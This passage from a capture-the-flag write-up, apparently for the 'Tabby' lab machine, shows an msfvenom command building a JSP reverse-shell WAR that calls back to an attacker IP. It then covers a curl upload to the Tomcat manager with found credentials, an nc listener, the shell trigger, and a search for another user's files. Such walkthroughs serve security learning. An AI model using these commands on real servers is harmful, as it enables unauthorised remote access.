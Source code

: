 We can now connect. Unfortunately, we are not allowed to use the GUI:
```markdown
403 Access Denied
You are not authorized to view this page.
```
It means that we will be forced to manually upload an application using *curl.*

---
### Reverse shell
Let’s prepare the reverse shell:
```bash
$ msfvenom -p java/jsp\_shell\_reverse_tcp lhost=10.10.14.142 lport=4444 -f war -o revshell.war
```
According to the Apache Tomcat documentation ([https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy\_A\_New\_Application\_Archive_(WAR)_Remotely](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_%28WAR%29_Remotely "https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely")), here is how we can deploy an application:
```bash
$ curl -u "tomcat:$3cureP4s5w0rd123!"
--upload-file revshell.war
http://tabby.htb:8080/manager/text/deploy?path=/revshell
```

Let’s confirm that our application has been deployed:
```bash
kali@kali:/data/Tabby/files$ curl -u "tomcat:$3cureP4s5w0rd123!" http://tabby.htb:8080/manager/text/list
OK - Listed applications for virtual host \[localhost\]
/:running:0:ROOT
/revshell:running:0:revshell <--------------------------- It is here!
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```
Now, let’s start a reverse shell (*rlwrap nc -nlvp 4444*) and call our malicious application.
```bash
$ curl -u "tomcat:$3cureP4s5w0rd123!" http://tabby.htb:8080/revshell/
```
Our listener got a response and we now have a reverse shell. Unfortunately, we can’t read the user flag and will need to move laterally to *ash*.
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
tomcat@tabby:/var/lib/tomcat9$ ls -la /home
ls -la /home
total 12
drwxr-xr-x 3 root root 4096 Jun 16 13:32 .
drwxr-xr-x 20 root root 4096 May 19 10:28 ..
drwxr-x--- 3 ash ash 4096 Jun 16 13:59 ash
tomcat@tabby:/var/lib/tomcat9$ ls -la /home/ash
ls -la /home/ash
ls: cannot open directory '/home/ash': Permission denied
```
---
### Lateral move
#### Files owned by *ash*
Checking the files owned by *ash* reveals a backup file. Let’s download it.
```bash
tomcat@tabby:/var/lib/tomcat9$ find / -type f -user ash 2>/dev/null
find / -type f -user ash 2>/dev/null
/var/www/html/files/16162020_backup.zip
```
#### Crack zip archive
The backup is password protected, let’s use John to crack the password.